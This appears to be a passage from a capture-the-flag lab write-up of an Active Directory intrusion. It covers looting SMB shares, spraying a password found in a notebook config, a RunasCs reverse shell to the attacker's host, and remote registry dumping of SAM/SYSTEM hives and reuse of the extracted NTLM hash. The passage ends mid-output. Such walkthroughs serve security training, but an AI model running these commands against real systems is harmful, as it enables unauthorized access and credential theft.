

*The svc_backup share listing after the group add, with READ and WRITE on DEV and HR on FILESRV01*

On FILESRV01, `svc_backup` now holds READ and WRITE on `DEV` and `HR`.

## Access as nae

We connect to `DEV` on FILESRV01 with smbclient.

```
smbclient //10.1.207.33/DEV -U 'sern.local/svc_backup%ibm.2000'
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 19 19:50:30 2026
  ..                                DHS        0  Thu Nov 19 19:50:28 2026
  eigenstates.ipynb                   A   196415  Thu Oct  8 11:07:43 2026
  heat_equation_2d.ipynb              A   350597  Thu Oct  8 11:08:24 2026
  ipython_notebook_config.py          A      834  Thu Oct  8 11:19:13 2026
  Modeling and Simulation in Python.pdf      A  1614299  Thu Oct  8 11:26:50 2026
  Rossler_attractor.ipynb             A  1048474  Thu Oct  8 11:23:05 2026
  schrodinger_equation.ipynb          A   479697  Thu Oct  8 11:06:22 2026

                9534719 blocks of size 4096. 5571181 blocks available
```



*smbclient connected to DEV on FILESRV01, listing the notebooks and ipython_notebook_config.py*

We make a local `dev` folder and pull everything down into it.

```
mkdir dev && cd dev
```

```
smbclient //10.1.207.33/DEV -U 'sern.local/svc_backup%ibm.2000' -c 'prompt OFF; recurse ON; mget *'
```

```
getting file \eigenstates.ipynb of size 196415 as eigenstates.ipynb (259.9 KiloBytes/sec) (average 259.9 KiloBytes/sec)
getting file \heat_equation_2d.ipynb of size 350597 as heat_equation_2d.ipynb (630.5 KiloBytes/sec) (average 417.0 KiloBytes/sec)
getting file \ipython_notebook_config.py of size 834 as ipython_notebook_config.py (2.3 KiloBytes/sec) (average 327.4 KiloBytes/sec)
getting file \Modeling and Simulation in Python.pdf of size 1614299 as Modeling and Simulation in Python.pdf (2136.1 KiloBytes/sec) (average 890.2 KiloBytes/sec)
getting file \Rossler_attractor.ipynb of size 1048474 as Rossler_attractor.ipynb (1732.5 KiloBytes/sec) (average 1058.2 KiloBytes/sec)
getting file \schrodinger_equation.ipynb of size 479697 as schrodinger_equation.ipynb (944.5 KiloBytes/sec) (average 1041.9 KiloBytes/sec)
```

`ipython_notebook_config.py` is a notebook server config. It hashes the password before handing it to the server, but the plaintext sits in the file.

```
cat ipython_notebook_config.py
```

```
c = get_config()

import os
import base64
from IPython.lib import passwd

password = "ChipmunKid314"

# set the configurable to the hashed/salted value:
c.NotebookApp.password = passwd(password)
```



*ipython_notebook_config.py from the DEV share on FILESRV01, with the notebook password in plaintext*

We keep enumerating, and nothing else on `DEV` or `HR` stands out.

To find where `ChipmunKid314` works, we enumerate the domain's users from DC01 over SAMR (Security Account Manager Remote).

```
nxc smb 10.1.33.51 -u 'svc_backup' -p 'ibm.2000' --users
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.33.51      445    DC01             [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.33.51      445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.33.51      445    DC01             Administrator                 2026-10-06 18:27:48 0       Built-in account for administering the computer/domain 
SMB         10.1.33.51      445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.33.51      445    DC01             krbtgt                        2026-10-06 18:19:48 0       Key Distribution Center Service Account 
SMB         10.1.33.51      445    DC01             kyoma                         2026-10-07 14:18:14 0        
SMB         10.1.33.51      445    DC01             nae                           2026-10-07 14:18:48 0        
SMB         10.1.33.51      445    DC01             moeka                         2026-10-07 14:19:29 6        
SMB         10.1.33.51      445    DC01             braun                         2026-10-07 14:21:37 6        
SMB         10.1.33.51      445    DC01             svc_backup                    2026-10-07 14:30:57 0        
SMB         10.1.33.51      445    DC01             [*] Enumerated 8 local users: SERN
```



*NetExec enumerating the sern.local domain users over SAMR as svc_backup*

We put `nae`, `moeka`, and `braun` in `users.txt` and spray the password across all three hosts, with `--continue-on-success` so NetExec tests every account rather than stopping at the first valid one.

```
nxc smb hosts.txt -u users.txt -p 'ChipmunKid314' --continue-on-success
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\nae:ChipmunKid314 
SMB         10.1.33.51      445    DC01             [-] sern.local\moeka:ChipmunKid314 STATUS_LOGON_FAILURE 
SMB         10.1.33.51      445    DC01             [-] sern.local\braun:ChipmunKid314 STATUS_LOGON_FAILURE 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\nae:ChipmunKid314 
SMB         10.1.207.33     445    FILESRV01        [-] sern.local\moeka:ChipmunKid314 STATUS_LOGON_FAILURE 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.207.33     445    FILESRV01        [-] sern.local\braun:ChipmunKid314 STATUS_LOGON_FAILURE 
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\nae:ChipmunKid314 
SMB         10.1.150.10     445    MSGSRV01         [-] sern.local\moeka:ChipmunKid314 STATUS_LOGON_FAILURE 
SMB         10.1.150.10     445    MSGSRV01         [-] sern.local\braun:ChipmunKid314 STATUS_LOGON_FAILURE 
```



*NetExec spraying ChipmunKid314 across all three hosts, valid for nae on each*

The password works for `nae` on all three hosts and fails for `moeka` and `braun`. We list `nae`'s shares.

```
nxc smb hosts.txt -u 'nae' -p 'ChipmunKid314' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\nae:ChipmunKid314
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\nae:ChipmunKid314
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$                          Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$                              Default share
SMB         10.1.207.33     445    FILESRV01        DEV
SMB         10.1.207.33     445    FILESRV01        HR
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\nae:ChipmunKid314
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
```



*Validating nae credentials with NetExec*

`nae` reaches only the default shares, with no access to `DEV` or `HR`.

## Shell as nae

BloodHound shows nothing useful from `nae`, so we check which hosts it can reach over WinRM.

```
nxc winrm hosts.txt -u 'nae' -p 'ChipmunKid314'
```

```
WINRM       10.1.207.33     5985   FILESRV01        [*] Windows Server 2022 Build 20348 (name:FILESRV01) (domain:sern.local) 
WINRM       10.1.150.10     5985   MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) 
WINRM       10.1.33.51      5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:sern.local) 
WINRM       10.1.207.33     5985   FILESRV01        [+] sern.local\nae:ChipmunKid314 (Pwn3d!)
WINRM       10.1.150.10     5985   MSGSRV01         [-] sern.local\nae:ChipmunKid314
WINRM       10.1.33.51      5985   DC01             [-] sern.local\nae:ChipmunKid314
```



*NetExec WinRM check across all three hosts, with nae marked (Pwn3d!) on FILESRV01*

Over WinRM, NetExec's `(Pwn3d!)` means the account can open a remote shell, and `nae` can on FILESRV01 only. We connect with Evil-WinRM.

```
evil-winrm -i '10.1.207.33' -u 'nae' -p 'ChipmunKid314'
```

We work through the usual host enumeration on FILESRV01 as `nae`, and none of it turns up a way to escalate from `nae` itself.

## Shell as svc_backup

`svc_backup` has no WinRM access, but we still hold its password and a shell as `nae`. [RunasCs](https://github.com/antonioCoco/RunasCs) starts a process under another user's credentials from a session we already have, so we run it out of the `nae` shell. We upload `Invoke-RunasCs.ps1`, the PowerShell version from the same repository, with Evil-WinRM's `upload` command.

```
upload Invoke-RunasCs.ps1
```

```
Info: Uploading /home/kali/Desktop/ctf/hack_smarter_labs/active_directory/medium/messenger/Invoke-RunasCs.ps1 to C:\Users\nae\Documents\Invoke-RunasCs.ps1
                                        
Info: Upload successful!
```

Then we load it into the `nae` session.

```
. .\Invoke-RunasCs.ps1
```

We start Penelope, a reverse shell handler, and leave it listening on our port.

```
penelope -p 1337
```

We give RunasCs the `svc_backup` credentials and `cmd.exe` to launch, so the shell that calls back is running as that account. RunasCs uses an interactive logon by default.

```
Invoke-RunasCs -Username svc_backup -Password 'ibm.2000' -Domain sern.local -Command "cmd.exe" -Remote 10.200.121.154:1337
```

Update the IP and port to your own.

```
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-131dfd$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1120 created in background.
```



*Invoke-RunasCs in the nae session on FILESRV01, starting cmd.exe as svc_backup with a reverse shell to our host*

Penelope catches the shell.

```
whoami
```

```
sern\svc_backup
```



*Penelope receiving the RunasCs reverse shell running as sern\svc_backup*

We look at the account's groups and privileges.

```
whoami /all
```

```
USER INFORMATION
----------------

User Name       SID                                         
=============== ============================================
sern\svc_backup S-1-5-21-2387301235-874641830-263055908-1109

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes                                        
========================================== ================ ============================================ ==================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551                                 Group used for deny only                          
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
SERN\File Management                       Group            S-1-5-21-2387301235-874641830-263055908-1110 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                    

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```



*whoami /all in the svc_backup shell on FILESRV01, with Backup Operators listed as deny only and no SeBackupPrivilege*

`svc_backup` is in `BUILTIN\Backup Operators`, which on a member server is the host's own local group, so these are backup rights on FILESRV01 rather than on DC01. Backup Operators can connect to a host's administrative shares, which accounts for `svc_backup`'s `ADMIN$` and `C$` access. Backup Operators holds SeBackupPrivilege, which lets a member read any file on the host regardless of its DACL, including the registry hives that hold local credentials, so we try saving the SAM.

```
reg save HKLM\SAM C:\Windows\Temp\sam.save
```

```
File C:\Windows\Temp\sam.save already exists. Overwrite (Yes/No)?yes
ERROR: A required privilege is not held by the client.
```



*reg save in the svc_backup shell on FILESRV01, refused because the privilege is not held*

The `whoami /all` output explains the failure: Backup Operators is marked `Group used for deny only`, and SeBackupPrivilege is not in the token. UAC filters the token of an interactive logon by a member of Backup Operators, and RunasCs logs on interactively by default, so the shell runs at medium integrity without the privilege.

## Access as moeka

Over the network, UAC filters only local accounts, so a domain account like `svc_backup` authenticating over SMB carries its full Backup Operators token. impacket-reg can back up the `SAM`, `SYSTEM`, and `SECURITY` hives through the remote registry and write them to a share, so we start one on our host.

```
impacket-smbserver share ./ -smb2support
```

Then we run the backup against FILESRV01 as `svc_backup`.

```
impacket-reg 'sern.local/svc_backup:ibm.2000@10.1.207.33' backup -o '\\10.200.121.154\share'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to \\10.200.121.154\share\SAM.save
[-] Couldn't save HKLM\SYSTEM: The NETBIOS connection with the remote host timed out.
[-] Error occurs while reading from remote(104)
```

impacket-reg saves `SAM`, then reports a timeout on `SYSTEM` and stops before it reaches `SECURITY`. We check what landed in the share.

```
ls -lh
```

```
total 19M
-rw------- 1 kali kali 4.9K Nov 19 17:45 challenge_lab_messen.ovpn
-rw-rw-r-- 1 kali kali 143K Nov 19 19:21 DC01_10.1.33.51_2026-11-19_191902_bloodhound.zip
drwxrwxr-x 2 kali kali 4.0K Nov 19 19:52 dev
-rw-rw-r-- 1 kali kali   35 Nov 19 19:16 hosts.txt
-rw-rw-r-- 1 kali kali  87K Nov 19 20:01 Invoke-RunasCs.ps1
-rwxrwxr-x 1 kali kali  44K Nov 20 20:28 SAM.save
-rw-rw-r-- 1 kali kali 2.1K Nov 19 19:39 svc_backup_kerb.txt
-rwxrwxr-x 1 kali kali  19M Nov 20 20:34 SYSTEM.save
-rw-rw-r-- 1 kali kali   16 Nov 19 19:48 users.txt
```



*SAM.save and SYSTEM.save in our SMB share after the impacket-reg backup, with no SECURITY.save*

`SAM.save` is there, and so is a 19M `SYSTEM.save`, written six minutes after it. `SECURITY.save` is missing, but we do not need it: `SECURITY` holds the LSA secrets and cached domain logons, while the local account hashes sit in `SAM`, encrypted with a key derived from the boot key in `SYSTEM`. impacket-secretsdump parses the two hives locally.

```
impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x9f6f3c854f7b832790ebd8675aa969ca
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b775b02eb64f1b6f39136fadee7d097:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f08bb0f2a18087aebde05a88e8562905:::
moeka:1000:aad3b435b51404eeaad3b435b51404ee:3db7b1172736f9269dc00118e536a07b:::
[*] Cleaning up... 
```



*impacket-secretsdump parsing the FILESRV01 hives, with the local moeka hash in the SAM*

secretsdump reads the boot key out of `SYSTEM.save`, so the copy that landed despite the timeout is usable. Alongside the built-in accounts, FILESRV01's SAM holds a local account named `moeka`, RID (relative identifier) 1000. john does not crack its hash, but `moeka` is also a domain account from the `--users` output, so we test the local hash against the domain.

```
nxc smb hosts.txt -u 'moeka' -H '3db7b1172736f9269dc00118e536a07b' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$                          Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$                              Default share
